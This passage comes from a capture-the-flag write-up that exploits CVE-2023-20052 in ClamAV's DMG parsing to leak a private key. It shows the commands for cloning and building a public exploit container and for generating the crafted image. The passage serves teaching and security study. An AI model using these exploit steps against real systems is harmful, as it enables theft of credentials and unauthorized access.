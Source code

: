 ![image-20230510170430588](/img/image-20230510170430588.png)

#### Exploit

I’ll upload this file again, and run it just like before. Where before it said “text value is plst”, now it has the private key:

![image-20230510172335764](/img/image-20230510172335764.png)

### Public Exploit

Not long after the release of Snoopy, nokn0wthing put out [this repo](https://github.com/nokn0wthing/CVE-2023-20052). It has a Docker container that will generate the DMG file for me.

Following the instructions in the repo, I’ll clone it and build the container:

```

oxdf@hacky$ git clone https://github.com/nokn0wthing/CVE-2023-20052.git
Cloning into 'CVE-2023-20052'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 15 (delta 4), reused 4 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), 47.69 KiB | 2.17 MiB/s, done.
Resolving deltas: 100% (4/4), done.
oxdf@hacky$ cd CVE-2023-20052/
oxdf@hacky$ docker build -t cve-2023-20052 .
...[snip]...

```

I’ll drop into the container, mounting the current directory in as the `/exploit` directory:

```

oxdf@hacky$ docker run -v $(pwd):/exploit -it cve-2023-20052 bash
root@c1cff2f4ad04:/exploit# 

```

The first step is to generate an ISO image. There’s one in `/exploit`, but I’ll delete it for the sake of demo:

```

root@39e742dc1260:/exploit# rm test.img 
root@39e742dc1260:/exploit# genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img .
genisoimage: Warning: no Apple/Unix files will be decoded/mapped
Total translation table size: 0
Total rockridge attributes bytes: 6878
Total directory bytes: 36864
Path table size(bytes): 240
Max brk space used 1b000
181 extents written (0 MB)

```
